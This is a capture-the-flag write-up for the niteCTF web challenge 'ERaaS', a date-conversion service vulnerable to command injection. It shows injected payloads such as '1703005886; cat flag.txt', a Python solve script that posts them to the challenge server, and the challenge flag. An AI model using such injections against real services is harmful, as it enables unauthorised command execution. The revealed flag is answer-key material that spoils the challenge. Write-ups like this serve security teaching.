

# ERaaS

```
Emergency response? Afraid not.

Author: ravinesPlains

Link: http://eraas.web.nitectf.live
```

## POC

There was a web service that converts epoch timestamps into human-readable dates, I stumbled upon what seemed to be a potential Command Injection vulnerability.


My initial suspicion led me to believe that the underlying command used for conversion might be something like:

```bash
date -d @user_input
```

This got me thinking that if I could inject my own input, I might be able to execute arbitrary commands. To confirm this, I attempted to list the files in the system by injecting the command:

```bash
1703005886; ls
```

To my delight, I discovered a file named flag.txt.


With this crucial information, I proceeded to print the contents of flag.txt using the following exploit:

```bash
1703005886; cat flag.txt
```

As expected, the flag was successfully revealed.



## solve.py

```python
import re
import requests

url = "http://eraas.web.nitectf.live"

data = {
    "user_input": "1702957802; cat flag.txt"
}

r = requests.post(url, data=data)

flag = re.findall(r"nite{.*}", r.text)[0]

print(flag)
```

## Flag

`nite{b3tt3r_n0_c5p_th7n_b7d_c5p_r16ht_fh8w4d}`
